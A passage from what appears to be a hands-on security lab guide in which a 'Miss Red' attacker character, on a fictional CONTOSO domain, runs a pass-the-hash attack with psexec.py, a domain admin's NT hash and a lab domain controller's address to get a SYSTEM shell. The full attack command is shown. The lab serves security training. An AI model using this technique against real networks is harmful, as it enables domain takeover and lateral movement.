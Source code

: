     📝 What is the NT Hash of Vickie Fergusson's admin account?

Congrats <font style="color:red;">**Miss Red**</font>! You got your hands on Vickie's admin account. And Vickie is a domain admin... It smells very good 🌷

### Task 2 - Pass the hash of Vickie while connecting to a domain controller

Congratulation on getting a domain admin's hash <font style="color:red;">**Miss Red**</font>. Now it's time to use it.

1. [] We are still on **@lab.VirtualMachine(CLI01).SelectLink** with the following credentials:
    |||
    |:--------|:--------|
    | Username | `CONTOSO\red` |
    | Password | Please type the password |
    
1. [] Switch to your **Windows Terminal** console. If you closed it, open a new one by right clicking on the Start menu ![image](.\IMG\11menu.png) and clicking on **Windows Terminal (Admin)**.

1. [] In the **Windows Terminal** window, run the following `cd \Tools\Scripts`. Then run the following command: `python.exe psexec.py -hashes :e9cea451b61bd792681893d48f9683b9 CONTOSO/v.fergusson.adm@192.168.1.11 cmd.exe`
This opens a command prompt on 192.168.1.11 (aka **DC01**) and we used to hash of Vickie during the logon process.

1. [] To confirm we are on **DC01**, run `hostname` and to see who we are on this system, run `whoami`.
You should have these results: ![image](.\IMG\PSEXECPY.png)

    Congratulation <font style="color:red;">**Miss Red**</font> you are SYSTEM on a domain controller without knowing the password of an admin, but by knowing (and using) only the hash. **You passed the hash.** Let's tell <font style="color:blue;">**Mister Blue**</font> about it.

1. [] In the same prompt run `exit` to exit the PsExec session.
![image](.\IMG\dptqeqnc.png)
